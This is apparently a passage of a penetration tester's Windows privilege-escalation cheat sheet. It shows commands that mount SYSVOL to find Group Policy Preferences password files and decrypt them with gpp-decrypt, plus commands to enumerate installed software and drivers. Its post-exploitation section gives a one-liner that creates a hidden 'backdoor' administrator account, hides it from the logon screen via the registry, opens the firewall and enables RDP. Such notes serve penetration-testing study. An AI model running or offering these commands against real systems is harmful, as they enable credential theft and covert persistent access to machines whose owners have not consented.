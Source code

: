 ```
net use z: \\192.168.1.101\SYSVOL

# And enter it
z:

# Now we search for the groups.xml file
dir Groups.xml /s
```

If we find the file with a password in it, we can decrypt it like this in Kali

```
gpp-decrypt encryptedpassword
```

```
Services\Services.xml: Element-Specific Attributes
ScheduledTasks\ScheduledTasks.xml: Task Inner Element, TaskV2 Inner Element, ImmediateTaskV2 Inner Element
Printers\Printers.xml: SharedPrinter Element
Drives\Drives.xml: Element-Specific Attributes
DataSources\DataSources.xml: Element-Specific Attributes
```

### Installed Applications
```
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname   (check software with version 32 bit and below 64)

Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
```

### Vulnerable Drivers

Some driver might be vulnerable. I don't know how to check this in an efficient way.

```
# List all drivers
driverquery
```

Search drivers online.

# Post-Exploitation

## RDP Enable
Try 1:
```
net user /add backdoor NewPassword! && net localgroup administrators backdoor /add & net localgroup "Remote Desktop Users" backdoor /add & netsh advfirewall firewall set rule group="remote desktop" new enable=Yes & reg add HKEY_LOCAL_MACHINE\Software\Microsoft\WindowsNT\CurrentVersion\Winlogon\SpecialAccounts\UserList /v backdoor /t REG_DWORD /d 0 & reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v TSEnabled /t REG_DWORD /d 1 /f & sc config TermService start= auto
```
